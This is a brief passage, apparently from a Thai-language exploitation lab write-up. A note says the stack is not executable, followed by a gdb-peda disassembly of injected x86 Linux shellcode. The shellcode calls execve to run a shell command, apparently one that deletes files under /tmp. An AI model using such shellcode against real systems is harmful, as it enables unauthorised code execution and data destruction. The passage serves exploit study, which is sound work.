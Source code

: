 ![alt text](image-35.png)

- แต่ stack ไม่มี x permission

```
gdb-peda$ x/50i $eax
   0xffffcec8:	jmp    0xffffcef3
   0xffffceca:	pop    ebx
   0xffffcecb:	xor    eax,eax
   0xffffcecd:	mov    BYTE PTR [ebx+0x9],al
   0xffffced0:	mov    BYTE PTR [ebx+0xc],al
   0xffffced3:	mov    BYTE PTR [ebx+0x47],al
   0xffffced6:	mov    DWORD PTR [ebx+0x48],ebx
   0xffffced9:	lea    ecx,[ebx+0xa]
   0xffffcedc:	mov    DWORD PTR [ebx+0x4c],ecx
   0xffffcedf:	lea    ecx,[ebx+0xd]
   0xffffcee2:	mov    DWORD PTR [ebx+0x50],ecx
   0xffffcee5:	mov    DWORD PTR [ebx+0x54],eax
   0xffffcee8:	lea    ecx,[ebx+0x48]
   0xffffceeb:	xor    edx,edx
   0xffffceed:	xor    eax,eax
   0xffffceef:	mov    al,0xb
   0xffffcef1:	int    0x80
   0xffffcef3:	call   0xffffceca
   0xffffcef8:	das    
   0xffffcef9:	bound  ebp,QWORD PTR [ecx+0x6e]
   0xffffcefc:	das    
   0xffffcefd:	bound  esp,QWORD PTR [ecx+0x73]
   0xffffcf00:	push   0x2a632d2a
   0xffffcf05:	das    
   0xffffcf06:	bound  ebp,QWORD PTR [ecx+0x6e]
   0xffffcf09:	das    
   0xffffcf0a:	jb     0xffffcf79
   0xffffcf0c:	and    BYTE PTR ds:0x742f2066,ch
   0xffffcf12:	ins    DWORD PTR es:[edi],dx
   0xffffcf13:	jo     0xffffcf44
   0xffffcf15:	je     0xffffcf7c
   0xffffcf17:	jae    0xffffcf8d
   0xffffcf19:	and    BYTE PTR [esi],ah
   0xffffcf1b:	and    BYTE PTR es:[ebp+0x63],ah
   0xffffcf1f:	push   0x7573206f
```
